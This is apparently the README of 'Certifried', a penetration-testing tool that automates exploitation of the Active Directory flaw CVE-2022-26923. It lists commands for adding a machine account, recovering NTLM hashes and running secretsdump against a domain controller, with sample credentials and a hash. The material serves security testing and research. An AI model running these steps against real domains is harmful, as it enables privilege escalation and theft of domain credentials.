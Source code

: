 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
* Just add computer and update neccessary attributes
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10
```
Next step is to request certificate manually, you can refer [here](https://github.com/aniqfakhrul/archives#certifried)
* Recover NTLM hash
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap
```
* Proceed with secretsdump
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump
```
_Note: If you received an error of Name Service not found, you might wanna add target ip to /etc/hosts_

### In case where you obtain a machine account hash
_CAVEAT: that this will modify the `servicePrincipalName` and `dnsHostName` attribute of the current computer account_
```
python3 modify_ourself.py range.net/ws01\$@192.168.86.182 -hashes :0e3ae07798e1bc9e02b049a795a7e69f
```

## Credits 
* https://github.com/dirkjanm/PKINITtools
* https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
* https://github.com/eloypgz/certi
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
